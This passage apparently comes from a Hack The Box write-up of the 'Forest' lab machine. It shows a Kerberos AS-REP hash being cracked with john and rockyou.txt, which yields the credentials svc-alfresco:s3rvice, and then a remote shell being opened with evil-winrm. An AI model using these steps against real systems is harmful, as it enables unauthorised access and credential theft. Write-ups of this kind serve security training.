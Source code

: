 And I get a john-crackable hash! As with most HTB machines I am first going to run it through `rockyou.txt`:

```console
root@discovery:~/htb/forest# john --wordlist:/usr/share/wordlists/rockyou.txt svchash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2020-02-21 21:20) 0.2923g/s 1194Kp/s 1194Kc/s 1194KC/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

to great success! I've now got a user:pass `svc-alfresco:s3rvice`.


## User Flag

Now that I've got some credentials, I am going to drop that null session from `rpcclient` and move to a better tool -- [EvilWinRM](https://github.com/Hackplayers/evil-winrm)

```console
root@discovery:~/htb/forest# evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice                                                    
                                                                                                                                      
Evil-WinRM shell v2.0                                                                                                                 
                                                                                                                                      
Info: Establishing connection to remote endpoint                                                                                      
                                                                                                                                      
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami                                                                               
htb\svc-alfresco                                                                                                                      
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..                                                                                
*Evil-WinRM* PS C:\Users\svc-alfresco> dir                                                                                            
                                                                                                                                      
                                                                                                                                      
    Directory: C:\Users\svc-alfresco                                                                                                  
                                                                                                                                      
                                                                                                                                      
Mode                LastWriteTime         Length Name                                                                                                                                                                                                                       
----                -------------         ------ ----                                                                                                                                                                                                                       
d-r---        9/23/2019   2:16 PM                Desktop                                                                                                                                                                                                                    
d-r---        9/22/2019   4:02 PM                Documents                                                                                                                                                                                                                  
d-r---        7/16/2016   6:18 AM                Downloads                                                                                                                                                                                               
```